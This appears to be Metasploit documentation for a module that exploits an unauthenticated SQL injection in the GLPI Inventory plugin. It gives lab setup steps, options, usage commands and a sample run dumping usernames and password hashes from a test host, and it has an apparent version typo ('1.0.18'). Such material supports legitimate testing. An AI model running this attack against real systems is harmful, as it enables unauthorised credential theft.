 ## Vulnerable Application
GLPI <= 1.0.18 fails to properly sanitize user supplied data when sent inside a `SimpleXMLElement`
(available to unauthenticated users), prior to using it in a dynamically constructed SQL query.
As a result, unauthenticated attackers can conduct an SQL injection attack to dump sensitive
data from the backend database such as usernames and password hashes.

In order for GLPI to be exploitable the GLPI Inventory plugin must be installed and enabled, and the "Enable Inventory"
radio button inside the administration configuration also must be checked.

### Setup on Ubuntu 22.04

Install PHP dependencies:
```
sudo add-apt-repository ppa:ondrej/php
sudo apt install apache2 php8.3 php8.3-curl php8.3-zip php8.3-gd php8.3-intl \
 php8.3-intl php-pear php8.3-imagick php-bz2 php8.3-imap php-memcache php8.3-pspell   \
 php8.3-tidy php8.3-xmlrpc php8.3-xsl php8.3-mbstring php8.3-ldap php-cas php-apcu    \
 libapache2-mod-php8.3 php8.3-mysql mariadb-server
```

Ensure mariadb and apache are installed and running:
```
sudo systemctl status apache2
sudo systemctl status mariadb
```

Run the mysql secure installation script, input defaults and your desired username password:
```
sudo mysql_secure_installation
```

Connect to the database:
```
sudo mysql -u root -p
```

Create a database user `msfuser` and a database named `glpi`:
```
CREATE USER 'msfuser'@'localhost' IDENTIFIED BY 'notpassword';
CREATE DATABASE glpi;
GRANT ALL PRIVILEGES ON glpi.* TO 'msfuser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

Download the vulnerable version of GLPI, extract it and move it to `/var/www/html`:
```
wget https://github.com/glpi-project/glpi/releases/download/10.0.17/glpi-10.0.17.tgz
tar -xvf glpi-10.0.17.tgz
sudo mv glpi /var/www/html/
```

Download the vulnerable inventory plugin:
```
cd /var/www/html/glpi/plugins
sudo wget https://github.com/glpi-project/glpi-inventory-plugin/releases/download/1.4.0/glpi-glpiinventory-1.4.0.tar.bz2
sudo tar -xvjf glpi-glpiinventory-1.4.0.tar.bz2
```

Set the necessary permissions:
```
sudo chmod 755 -R /var/www/html/
sudo chown www-data:www-data -R /var/www/html/
```

Edit sites-available:
```
sudo vim /etc/apache2/sites-available/glpi.conf
```

Paste:
```
<VirtualHost *:80>
   ServerAdmin admin@your_domain.com
   DocumentRoot /var/www/html/glpi
   ServerName your-domain.com

   <Directory /var/www/html/glpi>
        Options FollowSymlinks
        AllowOverride All
        Require all granted
   </Directory>

   ErrorLog ${APACHE_LOG_DIR}/your-domain.com_error.log
   CustomLog ${APACHE_LOG_DIR}/your-domain.com_access.log combined

</VirtualHost>
```

Create the following symlink, rewrite and restart:
```
sudo ln -s /etc/apache2/sites-available/glpi.conf /etc/apache2/sites-enabled/glpi.conf
sudo a2enmod rewrite
sudo systemctl restart apache2
```

The application should be now available at `http://127.0.0.1/glpi`, navigate there in a browser to complete the setup wizard.
Warnings in the `Checking of the compatibility of your environment with the execution of GLPI` can be ignored, click continue.
It will ask you for the database credentials created above, input them and select the `glpi` database created above.

Once complete you'll be brought to a login page, authenticate using the default credentials `glpi`/`glpi`.

On the left hand side select and expand `Administration` in the dropdown select `Inventory`.
On the right hand side select `Enable Inventory`, then `Save` at the bottom.

On the left hand side select and expand `Setup` in the dropdown select `Plugins`.
Near the bottom of the screen find the `GLPI Inventory` plugin and under `Actions` click the install button (Folder icon with `+` symbol).
After installing the plugin a pop up will appear in the bottom right and ask if you want to enable the plugin, enable it.

Now the application should be vulnerable.

## Options

### DB_COLUMNS
The number of columns in the database. Can vary between versions, adjust this if exploit does not work initially.

### MAX_ENTRIES
The maximum  number of entries to dump from the database. More entries will increase module runtime.

## Verification Steps

1. Start msfconsole.
1. Do: `use gather/glpi_inventory_plugin_unauth_sqli`.
1. Set the `RHOST`.
1. Set `MAX_ENTRIES` to `1` to speed up module run time for verification.
1. Run the module.
1. Receive a table with one username and it's corresponding password hash.

## Scenarios
### GLPI 10.0.17 running on Ubuntu 22.04
```
msf > use gather/glpi_inventory_plugin_unauth_sqli
msf auxiliary(gather/glpi_inventory_plugin_unauth_sqli) > set rhost 172.16.199.130
rhost => 172.16.199.130
msf auxiliary(gather/glpi_inventory_plugin_unauth_sqli) > exploit 
[*] Reloading module...
[*] Running module against 172.16.199.130
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Extracting credential information
glpi_users
==========

 name                   password                                                     api_token
 ----                   --------                                                     ---------
 Plugin_GLPI_Inventory  39
 glpi                   $2y$10$ci01zoEXHWOfoxietd8ry.2K6Y3wR5bc1dZQiftuFM5hqQtPgD6LS
 glpi-system
 normal                 $2y$10$iaxy0646EhwsuBbjAgme4uJN6SN.pbyK.ciTCnep67Wq8x.qt1JvS
 post-only              $2y$10$//Ca44JjRIV/9Hv1IEM1y.v1aEa3FwzytX4QYtKsxyqF/rnOzROei
 tech                   $2y$10$KjaOxGSyd0CMifvDVNiggOxCVHP0g8jER/jLtZsmF54S63LH5GWIy

[*] Auxiliary module execution completed
```
